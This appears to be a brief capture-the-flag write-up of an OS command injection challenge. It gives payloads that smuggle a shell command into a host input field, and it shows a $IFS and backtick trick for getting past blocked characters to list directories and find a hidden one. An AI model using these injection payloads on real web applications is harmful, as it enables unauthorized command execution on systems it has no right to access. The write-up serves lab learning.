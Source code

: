 ![](oscommandefaultweb.png)

so yea this is kinda basic, we need just input like this `localhost;ls` to exploit the web, but they blocked some symbol, so we can use $IFS 
```bash
localhost$IFS`ls$IFS/`
```
![](oscommandlistdir.png)

as you can see, there is secret directory called `sup3rsecr3td1rectory` so just get into it
```
localhost$IFS`ls$IFS/sup3rsecr3td1rectory`
```
